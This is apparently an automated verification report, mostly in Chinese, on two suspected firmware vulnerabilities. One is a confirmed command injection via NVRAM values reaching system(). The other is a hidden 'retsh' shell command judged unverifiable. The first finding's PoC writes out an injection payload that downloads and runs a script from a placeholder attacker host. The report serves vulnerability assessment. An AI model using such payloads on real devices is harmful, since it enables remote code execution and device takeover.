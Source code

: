 ## 验证结论

- **描述准确性：** `accurate`
- **是否为真实漏洞：** `True`
- **风险级别：** `High`
- **详细原因：** 安全警报准确描述了命令注入漏洞。证据来自反编译代码：函数 fcn.00009f78 使用 sprintf 构建命令字符串并直接调用 system()，其中 iVar6 源自用户控制的 NVRAM 配置（通过 acosNvramConfig_get）。攻击者作为已登录的非 root 用户，可通过命令行工具修改 NVRAM 设置或执行 'bd' 命令传递恶意参数，间接控制输入。没有输入验证，允许注入特殊字符（如分号）执行任意命令。完整攻击链：1) 攻击者设置 NVRAM 键（对应 *0xa674）为恶意值，例如 'normal_value; malicious_command'；2) 执行 'bd burncode' 或相关功能触发 fcn.00009f78；3) sprintf 构建命令如 'some_command normal_value; malicious_command'；4) system() 执行注入的命令。PoC：作为已登录用户，运行命令设置 NVRAM（例如使用 nvram set 工具）并执行 'bd'，具体载荷如：修改 NVRAM 键值为 '000000000000; wget http://attacker.com/malicious.sh -O /tmp/malicious.sh && sh /tmp/malicious.sh'，可导致远程代码执行。漏洞风险高，因为允许任意命令执行，可能提升权限或造成系统损害。

## 验证指标

- **验证时长：** 415.15 秒
- **Token 使用量：** 764441

---

## 原始信息

- **文件/目录路径：** `usr/sbin/cli`
- **位置：** `cli:0x0001e540 sym.uc_cmdretsh`
- **描述：** The hidden command 'retsh' executes system("/bin/sh") without any authentication or authorization checks. Any non-root user with valid login credentials can trigger this command to gain root privileges. The command is documented as 'Hidden command - return to shell' and is accessible through the CLI interface. This vulnerability provides a direct path to full system control, bypassing all security mechanisms.
- **代码片段：**
  ```
  0x0001e540      000083e0       add r0, r3, r0              ; 0x20540 ; "/bin/sh" ; const char *string
  0x0001e544      3dadffeb       bl sym.imp.system           ; int system(const char *string)
  ```
- **备注：** This vulnerability is trivially exploitable by any authenticated user. The command 'retsh' is hidden but accessible if known. No further validation or complex input is required. This finding represents a complete attack chain from user input to dangerous operation (shell execution).

## 验证结论

- **描述准确性：** `partially`
- **是否为真实漏洞：** `False`
- **风险级别：** `N/A`
- **详细原因：** 函数 'sym.uc_cmdretsh' 确实执行 system("/bin/sh") 且无认证检查，符合警报描述。字符串 'retsh' 存在。但未找到对函数或字符串的引用，无法确认命令 'retsh' 可通过 CLI 接口访问。攻击者模型为已通过身份验证的非 root 用户，但缺乏证据证明攻击者可触发该命令。因此，漏洞无法验证为实际可利用，缺失完整攻击链证据。

## 验证指标

- **验证时长：** 416.32 秒
- **Token 使用量：** 773201

---